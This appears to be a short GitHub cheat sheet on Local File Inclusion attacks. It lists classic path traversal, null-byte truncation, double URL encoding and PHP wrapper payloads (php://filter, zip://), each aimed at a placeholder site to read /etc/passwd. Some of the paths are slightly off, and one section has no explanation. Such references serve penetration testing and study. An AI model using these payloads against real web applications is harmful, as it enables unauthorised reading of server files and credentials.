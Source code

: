 # LFI (Local File Inclusion)

<img src="https://github.com/Asthral/CheatSheetTool/blob/main/Schema/File%20Uploads/file-upload-sheetcheatschema.png">



## 1. Classique

**Explanation :** We use the variable "page" for include an other file. And ../ its for going to the front folder. 

**Example :** http://www.exemple.com/?page=example.php

http://www.exemple.com/?page=../../../etc/.passwd


## 2. Null byte

**Explanation :** .php was incremented automaticaly, like lang=eng, so we use %00 for separate the extension added. 

**Exemple :** http://www.exemple.com/?page=photo

http://www.exemple.com/?page=../../../etc/passwd%00


## 3. Double encoding

**Explanation :**

**Exemple :** http://www.exemple.com/?page=%252E%252E%252F%252E%252E%252F%252Epasswd


## 4. Wrappers

**Explanation :** wrapper is for apply filter. We have :

phar://

zip://

**Example :** zip://tmp/file.zip%23shell.php

tar://

php://

**Exemple :** http://www.exemple.com/?page=/etc/.passwd (permission denied)

http://www.exemple.com/?page= php://filter/convert.base64-encode/resource=/etc/.passwd
